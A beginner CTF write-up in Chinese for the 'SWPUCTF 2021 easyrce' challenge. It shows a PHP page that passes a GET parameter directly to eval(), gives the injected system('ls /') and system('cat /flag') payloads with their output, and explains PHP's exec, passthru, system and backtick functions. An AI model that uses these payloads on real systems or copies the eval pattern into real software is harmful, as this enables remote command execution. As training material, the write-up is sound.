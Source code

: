 # 第一次的RCE WP+补充

[[SWPUCTF 2021 新生赛\]easyrce | NSSCTF](https://www.nssctf.cn/problem/424)

```php+HTML
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
```

**if判断语句告诉我们，如果存在url变量则往下面执行eval函数，执行参数并且返回结果。**

- [x]   ?url=system("ls /");
- [x]    ?代表拼接
- [x]    ls /代表列出目录文件，学过Linux系统的大部分都有所了解。
- [x]    代码意思是将外部执行命令ls /的结果赋值给url变量，最后在浏览器中显示结果。
- [x]    注意以 **;** 英文分号进行闭合。

回显结果 `bin boot dev etc flllllaaaaaaggggggg home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var`

**使用cat命令查看flllllaaaaaaggggggg文件中的命令，需注意的是文件在/根目录下：**
  ` ?url=system("cat /flllllaaaaaaggggggg");`

### 知识补充

1. **exec** 执行系统外部命令时不会输出结果，而是返回结果的最后一行，如果你想得到结果你可以使用第二个参数，让其输出到指定的数组，此数组一个记录代表输出的一行，即如果输出结果有20行，则这个数组就有20条记录，所以如果你需要反复输出调用不同系统外部命令的结果，你最好在输出每一条系统外部命令结果时清空这个数组，以防混乱。第三个参数用来取得命令执行的状态码，通常执行成功都是返回０。 
    #示例代码：
    
    ```php+HTML
      <?php
            echo exec("ls",$file);
            echo "</br>";
               `print_r($file);`
            ?>
    
    #输出结果：
        test.php
        Array( [0] => index.php [1] => test.php)
    ```
    
    
2. **passthru**与system的区别，**passthru直接将结果输出到浏览器**，不需要使用 echo 或 return 来查看结果，**不返回任何值**，且其可以输出二进制，比如图像数据。

    ```php+HTML
    #示例代码：
        <?php
            passthru("ls");
        ?>
    #输出结果：
        index.phptest.php
    ```

    
3. **system**和exec的区别在于system在执行系统外部命令时，直接将结果输出到浏览器，不需要使用 echo 或 return 来查看结果，**如果执行命令成功则返回true，否则返回false**。

    ```php+HTML
    #示例代码：
        <?php
            system("ls /");
        ?>
    #输出结果：
     binbootcgroupdevetchomeliblost+foundmediamntoptprocrootsbinselinuxsrvsystmpusrvar
    ```

    
4. **反撇号**和shell_exec()函数实际上仅是反撇号 (`) 操作符的变体。

    ```php+HTML
    #示例代码：
        <?php
            echo `pwd`;
        ?>
    #输出结果：
        /var/www/html
    ```

    
